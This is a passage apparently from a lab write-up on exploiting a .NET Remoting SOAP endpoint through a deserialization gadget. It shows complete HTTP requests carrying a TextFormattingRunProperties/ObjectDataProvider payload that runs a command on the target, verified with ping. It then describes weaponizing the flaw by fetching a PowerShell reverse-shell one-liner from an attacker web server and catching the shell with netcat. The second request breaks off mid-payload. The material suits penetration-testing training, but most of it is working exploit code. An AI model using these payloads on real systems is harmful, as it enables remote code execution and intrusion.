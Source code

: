 ```bash
Referer: http://demo.ine.local/
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Length: 1474

<SOAP-ENV:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/" xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:clr="http://schemas.microsoft.com/soap/encoding/clr/1.0" SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
<a1:TextFormattingRunProperties id="ref-1" xmlns:a1="http://schemas.microsoft.com/clr/nsassem/Microsoft.VisualStudio.Text.Formatting/Microsoft.PowerShell.Editor%2C%20Version%3D3.0.0.0%2C%20Culture%3Dneutral%2C%20PublicKeyToken%3D31bf3856ad364e35">
<ForegroundBrush id="ref-3">&#60;ResourceDictionary
  xmlns=&#34;http://schemas.microsoft.com/winfx/2006/xaml/presentation&#34;
  xmlns:x=&#34;http://schemas.microsoft.com/winfx/2006/xaml&#34;
  xmlns:System=&#34;clr-namespace:System;assembly=mscorlib&#34;
  xmlns:Diag=&#34;clr-namespace:System.Diagnostics;assembly=system&#34;&#62;
     &#60;ObjectDataProvider x:Key=&#34;&#34; ObjectType = &#34;{ x:Type Diag:Process}&#34; MethodName = &#34;Start&#34; &#62;
     &#60;ObjectDataProvider.MethodParameters&#62;
        &#60;System:String&#62;cmd&#60;/System:String&#62;
        &#60;System:String&#62;&#34;/c ping 10.10.24.7&#34; &#60;/System:String&#62;
     &#60;/ObjectDataProvider.MethodParameters&#62;
    &#60;/ObjectDataProvider&#62;
&#60;/ResourceDictionary&#62;</ForegroundBrush>
</a1:TextFormattingRunProperties>
</SOAP-ENV:Envelope>
```
(NOTE: <SOAPBody> might need to be taken out from the output as it can sometimes make the payload fail).
After setting up a tcpdump for icmp, we can send the request with BURP and in fact we get pings on our machine.
We can further weaponize this, by setting up a webserver serving a powershell reverse oneliner and sending the exploit to catch a shell with netcat.
The request in Burp will be:
```bash
POST /VulnerableEndpoint.rem HTTP/1.1
Host: demo.ine.local:1234
SOAPAction: something
Content-type: text/xml
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://demo.ine.local/
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Length: 1575

<SOAP-ENV:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/" xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:clr="http://schemas.microsoft.com/soap/encoding/clr/1.0" SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
<a1:TextFormattingRunProperties id="ref-1" xmlns:a1="http://schemas.microsoft.com/clr/nsassem/Microsoft.VisualStudio.Text.Formatting/Microsoft.PowerShell.Editor%2C%20Version%3D3.0.0.0%2C%20Culture%3Dneutral%2C%20PublicKeyToken%3D31bf3856ad364e35">
<ForegroundBrush id="ref-3">&#60;ResourceDictionary
  xmlns=&#34;http://schemas.microsoft.com/winfx/2006/xaml/presentation&#34;
  xmlns:x=&#34;http://schemas.microsoft.com/winfx/2006/xaml&#34;
  xmlns:System=&#34;clr-namespace:System;assembly=mscorlib&#34;
  xmlns:Diag=&#34;clr-namespace:System.Diagnostics;assembly=system&#34;&#62;
```